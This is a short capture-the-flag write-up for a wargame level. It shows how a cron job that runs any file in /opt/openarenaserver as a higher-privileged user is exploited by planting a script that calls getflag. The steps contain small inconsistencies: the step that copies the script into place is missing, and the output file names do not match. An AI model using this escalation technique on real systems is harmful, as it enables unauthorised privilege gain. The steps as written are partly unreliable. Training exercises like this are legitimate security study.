 # Level05
## Step by step
### 1. The user `level05` home directory is empty
  ```bash
  > ls
  ```

---

### 2. Scan the VM for files owned by `level05`
Using the `find` command:
  ```bash
  > find / -type f -name "level05" 2>/dev/null

  /var/mail/level05
  /rofs/var/mail/level05
  ```

---

### 3. Analyze `/var/mail/level05`
The file contains the following line:

  ```
  */2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
  ```
This indicates a cron job runs every 2 minutes, executing `/usr/sbin/openarenaserver` as the `flag05` user.

---

### 4. Analyze `/usr/sbin/openarenaserver`
The file `/usr/sbin/openarenaserver` contains the following script:
  ```
  #!/bin/sh

  for i in /opt/openarenaserver/* ; do
  	(ulimit -t 5; bash -x "$i")
  	rm -f "$i"
  done
  ```
This script executes any files in the `/opt/openarenaserver/` directory with `bash` and then deletes them.

---

### 5. Exploit the cron job
To exploit this, create a script in `/opt/openarenaserver/` that runs the `getflag` command:

  ```bash
  > cat << end > test.sh
  > getflag >/tmp/truc
  > end

  > cat /tmp/truc1  #after 2mins of the crontab
  Check flag.Here is your token : XXX
  ```
